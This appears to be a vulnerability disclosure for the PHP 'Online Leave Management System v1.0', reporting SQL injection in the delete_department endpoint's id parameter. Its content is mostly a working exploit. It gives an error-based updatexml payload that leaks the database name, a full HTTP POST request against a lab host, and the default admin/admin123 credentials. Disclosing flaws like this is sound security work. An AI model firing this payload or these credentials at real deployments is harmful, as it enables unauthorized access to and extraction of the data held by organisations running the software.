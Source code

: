 # Online Leave Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Yuanbolin 

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14910/online-leave-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

First create a table in the database
```sql
CREATE TABLE `department_ist` (
  `id` int(11) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4;
COMMIT;
```

Vulnerability File: /leave_system/classes/Master.php?f=delete_department

Vulnerability location: /leave_system/classes/Master.php?f=delete_department,id

dbname=leave_db,length=8

[+] Payload:  id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+  // Leak place ---> id

```sql
POST /leave_system/classes/Master.php?f=delete_department HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/leave_system/admin/?page=maintenance/department
Content-Length: 65
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close

id=3' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/183635741-1a8d1a05-6ec9-4619-8d95-6644cca68feb.png)


